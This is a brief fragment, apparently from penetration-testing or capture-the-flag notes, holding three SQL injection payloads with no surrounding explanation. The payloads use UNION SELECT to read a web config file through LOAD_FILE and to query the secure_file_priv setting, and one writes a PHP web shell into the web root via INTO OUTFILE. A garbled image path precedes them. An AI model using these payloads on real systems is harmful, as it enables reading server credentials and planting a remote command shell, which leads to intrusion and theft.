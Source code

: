 ```sql
-> ' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
-> ' union select 1, variable_name, variable_value,4 from information_schema.global_variables where variable_name="secure_file_priv" -- 
-> ' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```